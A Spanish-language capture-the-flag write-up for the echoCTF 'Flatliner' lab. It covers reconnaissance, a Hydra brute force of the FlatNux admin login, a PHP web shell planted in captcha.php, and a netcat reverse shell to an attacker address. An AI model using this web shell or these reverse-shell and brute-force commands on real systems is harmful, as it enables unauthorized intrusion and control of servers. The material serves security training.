

Para esta práctica se utilizó la plataforma echoCTF, un entorno dedicado al despliegue de laboratorios de seguridad informática y desafíos de tipo Capture The Flag (CTF). En particular, se trabajó con el laboratorio Flatliner, disponible en dicha plataforma. Este escenario asigna la dirección IP 10.0.160.224 como objetivo. Para la práctica se establecerá como objetivo conseguir una shell de dicha máquina.
La máquina objetivo cuenta con dos servicios activos y cuatro banderas, las cuales indicarán el progreso en la escalada de privilegios y exploración del sistema.
Como primer paso, se realizó un escaneo de servicios utilizando la herramienta nmap. El comando empleado fue:
nmap -sV 10.0.160.224
Este comando permite identificar los puertos abiertos y los servicios asociados en la dirección IP 10.0.160.224. El parámetro -sV especifica que se debe realizar una detección de versiones para obtener más información sobre los servicios encontrados.
En este punto, se identificó que el puerto 22 está siendo utilizado por el servicio SSH, lo cual indica que podría estar disponible para acceso remoto. Sin embargo, no tenemos ningún usuario o llave privada para acceder.
En contraparte, el puerto 80 parece estar ejecutando un servicio web sobre Apache. Entonces, este puede ser un punto por el cual podamos tener acceso a una webshell, por lo que verificaremos el servicio accediendo mediante un navegador web. Una vez abriendo en el navegador el contenido que tiene la máquina observamos lo siguiente:

Parece ser una página de prueba sobre "FlatNux", buscando encontramos que es un CMS (Content Management System) con base de datos textual fácilmente personalizable.
Para continuar con la fase de reconocimiento, se empleó la herramienta dirb, con el objetivo de realizar fuzzing y descubrir posibles directorios expuestos que pudieran ser de utilidad para el análisis. El comando utilizado fue:
dirb http://10.0.160.224/ -S
Este comando permite listar rutas accesibles en el servidor web especificado, suprimiendo los códigos de estado no relevantes gracias a la opción -S. Para esto dirb usa una lista de posibles directorios si no se especifica una.
Como resultado, se identificaron los siguientes directorios:
blocksextraimagesincludelanguagesmiscthemesmodulespluginssectionsAl explorar el sitio web, se observa que la página principal actúa como una demo y redirige al usuario hacia un panel de control debido a que no está configurado completamente.
También se identificó una sección de noticias, la cual a simple vista no contiene información relevante.
Sin embargo, se observó un acceso a un login y una funcionalidad de search.
El reto consiste en obtener acceso a una terminal dentro del sistema. En este punto, se identifican dos posibles vectores para lograrlo:
PHP, aprovechando la funcionalidad de creación de perfil y ver múltiples reportes en Exploit-DB.Para esta práctica se optará por el primer enfoque, acceder mediante el formulario de login. Para ello, se utilizará la herramienta Hydra.
El primero que se intentó fue el más simple: admin. Para verificar si este usuario existe, se accedió a la sección de register, se intentó registrarse con dicho nombre y el sistema respondió con un mensaje confirmando que admin ya se encuentra registrado:
Para las contraseñas, se podrían emplear listas como las disponibles en el repositorio rockyou.txt. Se limitará a un conjunto reducido de intentos:
admin123passwordpassword123admin124admin123456admin1admin12admin123admin1234admin12345flatimeflatnuxflatlinerSe replicó la petición POST con Hydra sin usar herramientas de interceptación.
El formulario envía username, password y rememberlogin. Hydra permite replicar esto con el módulo http-post-form.
hydra -l admin -P lista_practica 10.0.160.224 http-post-form
"/controlcenter.php?&fnlogin=login:username=^USER^&password=^PASS^&rememberlogin=1:Authentication failure" -v
Donde cada parte significa:
-l admin: usuario a usar.-P lista_practica: archivo con posibles contraseñas.10.0.160.224: IP objetivo.http-post-form: módulo POST./controlcenter.php?&fnlogin=login: ruta del formulario.username=^USER^&password=^PASS^&rememberlogin=1: parámetros a enviar.Authentication failure: texto para detectar fallo.-v: modo verbose.Tras el uso de Hydra, se descubrió que la contraseña era flatnux.
Se identificaron errores en la página desarrollada en PHP:
Se exploró el directorio files en busca de un archivo para insertar la reverse shell:
Se seleccionó captcha.php para la reverse shell:
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<?php
if(isset($_GET['cmd'])) {
system($_GET['cmd']);
}
?>
<script>document.getElementById("cmd").focus();</script>
</body>
</html>
Acceso a la ruta /captcha.php desde el navegador:
Comandos para establecer conexión:
nc -lvnp 4242
nc 10.10.1.46 4242 -e /bin/bash
Para mejorar la terminal remota:
python3 -c 'import pty; pty.spawn("/bin/bash")'

Es así como se obtuvo acceso a la máquina objetivo.